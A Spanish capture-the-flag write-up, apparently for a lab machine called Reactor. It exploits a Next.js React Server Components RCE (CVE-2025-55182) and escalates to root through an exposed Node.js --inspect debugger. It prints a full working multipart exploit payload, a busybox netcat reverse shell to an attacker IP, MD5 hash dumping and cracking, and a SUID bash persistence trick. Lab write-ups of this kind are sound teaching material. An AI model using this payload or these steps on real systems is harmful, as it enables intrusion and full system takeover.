



Resumen de Explotación
Resumen del proceso: La máquina objetivo ejecutaba una aplicación web basada en Next.js 15.0.3 en el puerto 3000, que monitoriza un reactor nuclear. Esta versión es vulnerable al CVE-2025-55182, una vulnerabilidad crítica de ejecución remota de código en React y Next.js que permite inyectar payloads maliciosos a través de peticiones multipart/form-data especialmente diseñadas, abusando del protocolo RSC (React Server Components).
Mediante la explotación de esta vulnerabilidad, obtuve acceso como el usuario node. En el sistema encontré un fichero .env con la ruta a una base de datos SQLite, donde se almacenaban credenciales de usuarios. El hash MD5 del usuario engineer se crackeó rápidamente, lo que me permitió acceder por SSH y obtener la flag de usuario.
Para la escalada de privilegios, descubrí que root estaba ejecutando un proceso node con la opción --inspect escuchando en el puerto local 9229. Esto expone un depurador de Node.js que permite ejecutar código JavaScript arbitrario. Mediante un port forwarding por SSH y conectándome con Chrome DevTools, ejecuté comandos como root, creé una copia de bash con permisos SUID y escalé privilegios completamente.
Tecnologías/Exploits: React/Next.js RCE vía RSC (CVE-2025-55182), cracking de hash MD5, abuso de Node.js --inspect para RCE como root.
Reconocimiento Inicial
Comienzo con un escaneo de nmap para identificar los puertos abiertos y los servicios que se ejecutan en la máquina objetivo:
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 ce:fd:0d:82:c0:23:ed:6e:4b:ea:13:fa:4f:ea:ef:b7 (ECDSA)
|_ 256 f8:44:c6:46:58:7a:39:21:ef:16:44:e9:58:c2:f3:62 (ED25519)
3000/tcp open ppp?El escaneo revela dos puertos abiertos: el servicio SSH en el puerto 22 y un servicio desconocido en el puerto 3000. Vamos a investigar qué hay en este último.
Enumeración Web - Next.js en el Puerto 3000
En el puerto 3000 hay una aplicación web construida con Next.js que simula un sistema de monitorización de un reactor nuclear:

Para confirmar las tecnologías utilizadas, ejecuto whatweb:
└─$ whatweb http://10.129.4.103:3000
http://10.129.4.103:3000 [200 OK] Country[RESERVED][ZZ], HTML5, IP[10.129.4.103],
Script, Title[ReactorWatch | Core Monitoring System],
UncommonHeaders[x-nextjs-cache,x-nextjs-prerender,x-nextjs-stale-time],
X-Powered-By[Next.js]Además, Wappalyzer me indica que se trata de la versión 15.0.3 de Next.js. Esta información es crucial, ya que Next.js es conocido por haber tenido vulnerabilidades críticas, y esta versión en particular es vulnerable a un CVE reciente.
Investigación de Vulnerabilidades - CVE-2025-55182
Next.js es notablemente vulnerable en varias de sus versiones, y la 15.0.3 es vulnerable al CVE de React y Next.js de diciembre de 2025: CVE-2025-55182. Un análisis detallado de la vulnerabilidad está disponible en el blog de Wiz.
Esta vulnerabilidad permite la ejecución remota de código (RCE) mediante el abuso del protocolo RSC (React Server Components). Un atacante puede enviar una petición POST con contenido multipart/form-data especialmente diseñado que, al ser procesado por el servidor, ejecuta código JavaScript arbitrario en el lado del servidor a través de process.mainModule.require('child_process').
Acceso Inicial - Explotando CVE-2025-55182
Verifico la ejecución remota de código con la siguiente PoC. Se envía una petición POST a la raíz de la aplicación con cabeceras específicas de Next.js (Next-Action, X-Nextjs-Request-Id, X-Nextjs-Html-Request-Id) y un cuerpo multipart que contiene un payload JSON malicioso:
POST / HTTP/1.1
Host: 10.129.4.103:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Next-Action: x
X-Nextjs-Request-Id: b5dce965
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
X-Nextjs-Html-Request-Id: SSTMXm7OJ_g0Ncx6jpQt9
Content-Length: 897
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"
{
"then": "$1:__proto__:then",
"status": "resolved_model",
"reason": -1,
"value": "{\"then\":\"$B1337\"}",
"_response": {
"_prefix": "var res=process.mainModule.require('child_process').execSync('id',{'timeout':5000}).toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'), {digest:`${res}`});",
"_chunks": "$Q2",
"_formData": {
"get": "$1:constructor:constructor"
}
}
}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"
"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"
[]
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--El payload inyecta código JavaScript que se ejecuta en el contexto del servidor Node.js. El truco clave es la cadena en _prefix, que utiliza process.mainModule.require('child_process').execSync('id') para ejecutar el comando id en el sistema. El resultado se exfiltra a través del campo digest de un error NEXT_REDIRECT.
La respuesta del servidor confirma la ejecución remota de código:
HTTP/1.1 500 Internal Server Error
Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
x-nextjs-cache: HIT
x-nextjs-prerender: 1
X-Powered-By: Next.js
Content-Type: text/x-component
Content-Length: 110
0:{"a":"$@1","f":"","b":"L3bimJe_3LvBcFWAnK5L4"}
1:E{"digest":"uid=999(node) gid=988(node) groups=988(node)"}¡Se puede observar claramente la respuesta al comando id en el campo digest! El servidor está ejecutando como el usuario node (UID 999). Con la ejecución de código confirmada, me envío una reverse shell utilizando busybox:
busybox nc 10.10.15.130 443 -e shCon esto gano acceso al sistema como el usuario node.
Enumeración Interna - De node a engineer
Una vez dentro del sistema, comienzo la enumeración local. En el directorio de la aplicación encuentro un fichero .env con información valiosa sobre la base de datos y claves de API, además de una ruta de webhook con virtual hosting:
DB_PATH=/opt/reactor-app/reactor.db
DB_TYPE=sqlite3
# API Keys
SENSOR_API_KEY=rw_sk_7f8a9b2c3d4e5f6g7h8i9j0k
ALERT_WEBHOOK=https://alerts.internal.reactor.htb/webhookRevisando los puertos internos, identifico un servicio interesante escuchando en el puerto 9229:
tcp LISTEN 0 511 127.0.0.1:9229
node@reactor:/opt/reactor-app$ curl localhost:9229
WebSockets request was expectedLa respuesta "WebSockets request was expected" es característica del depurador de Node.js (--inspect). Esto será relevante más adelante para la escalada de privilegios. Primero, vamos a por las credenciales.
Reviso el fichero /etc/passwd e identifico al usuario engineer:
engineer:x:1000:1000:engineer:/home/engineer:/bin/bashAccedo a la base de datos SQLite indicada en el .env y extraigo las credenciales:
node@reactor:/opt/reactor-app$ sqlite3 reactor.db
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> .tables
sensor_logs users
sqlite> select * from users;
1|admin|a203b22191d744a4e70ada5c101b17b8|administrator|admin@reactor.htb
2|engineer|39d97110eafe2a9a68639812cd271e8e|operator|engineer@reactor.htbLos hashes están en formato MD5. El hash del usuario engineer (39d97110eafe2a9a68639812cd271e8e) se crackea rápidamente, revelando la contraseña reactor1. Con estas credenciales puedo conectarme por SSH como engineer y obtener la flag de usuario.
Escalada de Privilegios - Abuso de Node.js --inspect
Con el acceso como engineer, investigo los procesos que se están ejecutando en el sistema mediante ps -fauxww y descubro algo muy interesante:
root 1414 0.0 1.1 1066896 47376 ? Ssl 21:35 0:00 /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js¡El usuario root está ejecutando un proceso node con la opción --inspect en el puerto 9229! Ejecutar un proceso node con --inspect abiertamente es una vía directa a RCE como el usuario que ejecuta el proceso. Ya exploté esta misma técnica anteriormente en la máquina Store: https://kerdw.github.io/machines/store/index.html
Conectando al Depurador de Node.js
Para abusar de esto, primero necesito hacer accesible el puerto 9229 desde mi máquina local. Realizo un local port forwarding mediante SSH con el usuario engineer:
ssh -L 9229:127.0.0.1:9229 engineer@10.129.4.103Una vez establecido el túnel, abro Chrome y navego a chrome://inspect/. En el apartado "Configure..." añado localhost:9229 como target:

Tras configurar el target, Chrome detecta automáticamente el proceso remoto de Node.js:

Ejecución de Comandos como Root
Al hacer clic en "inspect", se abre una ventana de Chrome DevTools conectada directamente al proceso que root tiene ejecutándose. Desde la consola de JavaScript, puedo ejecutar comandos del sistema operativo como root usando los módulos nativos de Node.js:
require('child_process').execSync('id').toString()
'uid=0(root) gid=0(root) groups=0(root)\n'¡Confirmado! Estamos ejecutando comandos como root. Ahora simplemente creo una copia de bash con permisos SUID para obtener una shell persistente como root:
require('child_process').execSync('cp /bin/bash /tmp/xd; chmod u+s /tmp/xd').toString()
''De vuelta a la sesión SSH como engineer, ejecuto la copia de bash con SUID para escalar privilegios:
engineer@reactor:~$ /tmp/xd -p
xd-5.2# whoami
rootCon esto consigo acceso como root y puedo obtener la flag del sistema, completando la máquina.